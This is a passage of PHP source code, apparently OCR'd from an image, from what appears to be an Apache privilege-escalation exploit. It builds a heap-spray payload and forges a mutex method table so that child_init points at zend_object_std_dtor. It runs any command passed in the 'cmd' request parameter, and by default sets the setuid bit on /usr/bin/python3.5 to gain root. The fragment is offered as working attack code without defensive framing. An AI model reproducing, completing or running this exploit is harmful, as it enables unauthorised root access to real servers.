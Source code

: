             $spray_middle = (int) (($spray_min + $spray_max) / 2);
            $bucket_index_middle = (int) (
                - ($all_buckets - $spray_middle) /
                $size_prefork_child_bucket
            );

            #
            # Build payload
            #

            # A worker_score structure was kept empty to put our payload in
            $payload_start = $spray_min - $size_worker_score;

            $z = ptr2str(0);

            # Payload maxsize 264 - 112 = 152
            # Offset 8 cannot be 0, but other than this you can type whatever
            # command you want
            $bucket = isset($_REQUEST['cmd']) ?
                $_REQUEST['cmd'] :
                "chmod +s /usr/bin/python3.5";

            if(strlen($bucket) > $size_worker_score - 112)
            {
                o(
                    'Payload size is bigger than available space (' .
                    ($size_worker_score - 112) .
                    '), exiting.'
                );
                exit();
            }
            # Align
            $bucket = str_pad($bucket, $size_worker_score - 112, "\x00");

            # apr_proc_mutex_unix_lock_methods_t
            $meth = 
                $z .
                $z .
                $z .
                $z .
                $z .
                $z .
                # child_init
                ptr2str($addresses['zend_object_std_dtor'])
            ;
